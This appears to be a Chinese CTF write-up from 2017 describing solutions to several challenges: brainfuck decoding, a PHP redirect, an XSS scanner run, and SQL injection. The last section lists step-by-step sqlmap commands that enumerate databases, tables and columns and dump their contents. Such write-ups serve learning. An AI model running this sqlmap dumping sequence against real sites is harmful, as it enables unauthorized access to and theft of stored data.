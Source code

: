 # 2017-2-13

第一题 fuck your brain（是日我的大脑吗？QWQ）

去百度了一下brainfuck，然后就get到了传说中的brainfuck解码器，使用得到flag

第三题 你再跳啊

点击链接，执行php文件，第一句的内容是进行跳转，跳转到了这里永远找不到答案╭(╯^╰)╮，查看网页源码，打开PHP文件，跳转的下一行就是flag

第四题 XSS1

在网上找到了一个XSS漏洞扫描工具

![](http://i.imgur.com/7xmMijp.png)

首先在setting中的configure serve中进行服务器配置，配置进行扫描使用的端口，我用的是127.0.0.1:5005端口，然后再URL栏中填入目标地址，Inbulit选项会使用一些预置的payload内容（应该是这样吧）然后再Scanner中使用auto模式，下面的模拟了在三种浏览器中的注入情况，得到弹窗结果

第五题 sql注入

话说这样是不是有点不太好

其实我之前是试过手^(*￣(oo)￣)^的，在id处输入‘返回结果与没有引号不同，说明在id处存在注入，后来用sqlmap判断是否存在注入也是同样的结果

具体步骤：

1.用python sqlmap.py -u "url" 判断是否存在注入，返回结果是id存在注入

2.暴库：用python sqlmap.py -u "url" --dbs 返回所有数据库名称

3.python sqlmap.py -u "url" -D 数据库名称 --tables查看目标数据库下的表明

4.python sqlmap.py -u "url" -D 数据库名称 -T 表名称 --columns返回表中的字段名称

5.爆字段内容 python sqlmap.py -u "url" -D 数据库名称 -T 表名称 -C 字段名称 --dump 得到字段中的数据，其中的一个哈希值就是flag